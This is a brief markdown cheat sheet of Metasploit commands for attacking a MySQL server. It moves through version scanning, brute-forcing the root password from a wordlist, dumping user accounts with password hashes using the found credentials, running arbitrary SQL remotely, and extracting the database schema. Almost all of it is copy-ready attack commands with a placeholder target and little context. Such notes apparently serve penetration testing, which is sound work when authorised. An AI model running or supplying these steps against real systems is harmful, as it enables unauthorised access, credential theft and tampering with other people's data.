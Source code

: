 # Enumerating MYSQL Port
#### ENUMERATING MYSQL VERSION:

```sh
use auxiliary/scanner/mysql/mysql_version
set RHOSTS "TARGET IP"
exploit
```

#### BRUTE-FORCING MYSQL LOGIN:

```sh
use auxiliary/scanner/mysql/mysql_login
set RHOSTS "TARGET IP"
set USERNAME root
set PASS_FILE "PASSWORD WORDLIST"
set STOP_ON_SUCCESS true
set VERBOSE false
exploit
```

#### MYSQL ENUMERATION WITH ROOT CREDENTIALS:
Detects version, Architecture, hostname, Data directory location. user accounts info with password hashes and its privileges.

```sh
use auxiliary/admin/mysql/mysql_enum
set RHOSTS "TARGET IP"
set USERNAME root
set PASSWORD "FOUND PASSWORD"
exploit
```

#### REMOTE SQL COMMAND EXECUTION:

```sh
use auxiliary/admin/mysql/mysql_sql
set RHOSTS "TARGET IP"
set USERNAME root
set PASSWORD "FOUND PASSWORD"
set SQL "SQL QUERY TO EXECUTE ON TARGET"
exploit
```

#### DB SCHEMA/STRUCTURE ENUMERATION:

```sh
use auxiliary/scanner/mysql/mysql_schemadump
set RHOSTS "TARGET IP"
set USERNAME root
set PASSWORD "FOUND PASSWORD"
exploit
```
